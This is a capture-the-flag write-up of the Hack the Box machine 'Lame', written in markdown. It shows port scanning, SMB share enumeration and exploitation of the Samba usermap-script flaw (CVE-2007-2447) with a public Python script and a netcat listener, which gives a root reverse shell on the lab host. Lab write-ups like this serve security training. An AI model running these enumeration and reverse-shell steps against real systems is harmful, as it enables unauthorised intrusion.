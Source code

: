 ```yaml
---
title: Lame
layout: default
parent: Hack the Box OSCP Like
nav_order: 1
has_children: false
---
```


![Lame](Pasted image 20220623155843.png)

#Samba

# Discovery
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 20:25 BST
Nmap scan report for 10.10.10.3
Host is up (0.0054s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-23T15:25:54-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
```

## FTP
Connected to FTP Anonymously, doesn't appear to be anything there (only directories were . and .. navigating around didn't show anything promising)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

## SMB
SMBMap seems to find something interesting in tmp ('oh noes!' - probably because it's anonymous read/write)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Recursive file search shows a few files inside of TMP:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -R -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	.\tmp\*
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	.
	dw--w--w--                0 Sat Oct 31 06:33:57 2020	..
	dr--r--r--                0 Thu Jun 23 20:47:03 2022	.ICE-unix
	dw--w--w--                0 Thu Jun 23 20:47:31 2022	vmware-root
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.X11-unix
	fw--w--w--               11 Thu Jun 23 20:47:28 2022	.X0-lock
	fw--w--w--                0 Thu Jun 23 20:48:05 2022	5563.jsvc_up
	fw--w--w--             1600 Thu Jun 23 20:47:01 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	..
	fr--r--r--                0 Thu Jun 23 20:47:28 2022	X0
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

This command will allow us to download files, vgauth stood out, but perhaps I'm not looking at the right thing as it is empty:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gedit 10.10.10.3-tmpvgauthsvclog.txt.0
```

# Exploitation
---
## SAMBA
We saw that the server itself is running 3.0.20 (Samba) so let's read about any potential exploits.

Identified this link: [## CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447
>The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Performed some searchsploit checks and found this as well
[Link](https://www.exploit-db.com/exploits/16320)
```bash
[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit samba 3.0.20
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Securi | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map scr | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -p 16320
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text

Copied EDB-ID #16320's path to the clipboard
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 16320
---------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                              |  URL
---------------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasp | [Link](https://www.exploit-db.com/exploits/16320)
---------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looks like these are all metasploit, and we're trying to avoid its usage for the exam.
Found a github python script to do the manual exploitation: [Link](https://github.com/amriunix/CVE-2007-2447)
This video explains how to walk through exploitation (both manual and via metasploit) [Link](https://www.youtube.com/watch?v=HPP70Bx0Eck)

First attempt was a failure because I had not installed the PYSMB module in order to import the SMBConnection:
```bash
└──╼ [★]$ python -m pip install pysmb
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 5.3 MB/s
---
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
```

Ran the script, with appropriate perameters, all while running a netcat listener in a separate terminal, and can see that the connection was established:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ python3 usermap_script.py 10.10.10.3 445 10.10.14.8 5000
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 34178
```

### Privilege Escalation
---
1. Identified linux version/type via uname (GNU)
2. Identified current user (root)
3. Ran a find search to locate 'user.txt' (which is typically our user flag)
4. Cat'd out User.txt and pulled the flag
5. Cd'd back out into the root user folder and saw root.txt
6. Cat'd out root.txt and pulled the flag

```bash
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
find /* -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
[redacted]
find /* -name root.txt
/root/root.txt
cat /root/root.txt
[redacted]
```
